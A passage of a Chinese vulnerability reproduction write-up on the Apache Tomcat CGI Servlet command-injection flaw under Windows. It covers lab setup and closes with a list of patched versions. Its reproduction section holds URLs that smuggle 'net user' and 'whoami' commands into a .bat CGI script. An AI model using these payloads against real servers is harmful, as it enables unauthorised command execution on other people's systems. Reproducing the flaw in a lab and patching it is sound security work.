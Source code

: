 ```
</servlet-mapping>
```

修改在 conf/context.xml 中的 <Context> 添加 privileged="true" 语句

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWTBKzvquEhnicIwiatgIhYZbuHFTQQgtF7anwG8RbKvogjy7ZAdGoMqyw/640?wx_fmt=png)

5. 在 webappsROOTWEB-INF 下创建一个 cgi-bin 文件夹，并在文件夹内创建一个 bat 文件写入

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWJO4hNjVuMo554gVmn1K1BCaa4Mm1Mf835EKtJbxjh0k52MN3cVKdZw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWna4T5f8lkq7D2iaARShCQeenOkNtkVoWLdFVUFIBChccxBQrY1kK4oA/640?wx_fmt=png)

6. 都配置完成之后进入 bin 目录下运行 startup.bat 启动 tomcat

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWY1nWtJ5IRcKFgaVK2pasb6uABQ0mZMK8Ok5SiboLk23scC9TDZNEzPA/640?wx_fmt=png)

7. 访问搭建后的页面，若出现下图则说明搭建成功

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWbtL6l78tU6LKbCKKVa12dVOdzU5l0vdXT2Xpib09IpVIDdAdusb8C2Q/640?wx_fmt=png)

**漏洞复现**

    1. 在浏览器访问, 执行 net user 命令

```
http://your-ip/cgi-bin/test.bat?&C%3A%5CWindows%5CSystem32%5Cnet%20user
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWywzy4IEviajchSOammlciaJmJc3QngEWqbtmELuv9nPicdAr5b8y66u9w/640?wx_fmt=png)

    执行 whoami 命令

```
http://192.168.64.137:8080/cgi-bin/test.bat?c:/windows/system32/whoami.exe
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDCGs4Dkg8x3ZjFFZzAjRQicWIMeumL3D7kMwTB4MBicghUMQaWYl28gMLHyzic4OX67shGhmeqcAC2Aw/640?wx_fmt=png)

**漏洞修复**

受影响版本的用户应该应用下列其中一项缓解。升级到：

```
Apache Tomcat 9.0.18或更高版本
Apache Tomcat 8.5.40或更高版本
Apache Tomcat 7.0.93或更高版本
```
